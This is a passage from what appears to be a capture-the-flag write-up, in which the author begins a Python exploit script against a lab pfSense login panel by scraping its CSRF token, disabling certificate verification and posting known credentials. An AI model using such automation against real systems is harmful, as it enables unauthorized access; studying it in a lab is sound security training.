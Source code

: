 If I want the custom exploit to works, first I'm going to analyze from my browser the data that is sent to the server at the moment of authentication, and I already see an interesting fact, I have to take into account the value of the random **token** that I am going to have to extract from the source code. Also with the **urllib3** `python` library I'm going to disable the warning and the verification of the self-signed **SSL certificate** of the web server. To get the token I use the **pdb** library to debug and analyze the source code, this way I can create a regex with **re** library to get it. Once I have this value I check that I can **sigIn** into the **pfSense** authentication panel by sending the request with the credentials I have.

```bash
touch pfsense_autopwn.py
nvim !$

python3 pfsense_autopwn.py
  l
  print(r.text)
  import re
  re.findall(r'__csrf_magic\' value="(.*?)" />', r.text)
  re.findall(r'__csrf_magic\' value="(.*?)" />', r.text)[0]

  print(r.text)
# pfSense.localdomain - Status: Dashboard     :)

cat pfsense_autopwn.py
```

> **pfsense_autopwn.py**:

```python
#!/usr/bin/python3

import requests,sys,signal,urllib3,pdb,re,time
from pwn import *

def def_handler(sig,frame):
    print("\n\n[!] Exiting...\n")
    sys.exit(1)

# Ctrl+c
signal.signal(signal.SIGINT, def_handler)

# Global Variables
signinUrl = "https://10.10.10.60/index.php"
username = "rohit"
password = "pfsense"

def signInPfsense():

    s = requests.session()
    urllib3.disable_warnings()
    s.verify = False
    r = s.get(signinUrl)

    csrf_magic_token = re.findall(r'__csrf_magic\' value="(.*?)" />', r.text)

    post_data = {
        '__csrf_magic': csrf_magic_token,
        'usernamefld': username,
        'passwordfld': password,
        'login': 'Login'
    }

    r = s.post(signinUrl, data=post_data)
    pdb.set_trace()

```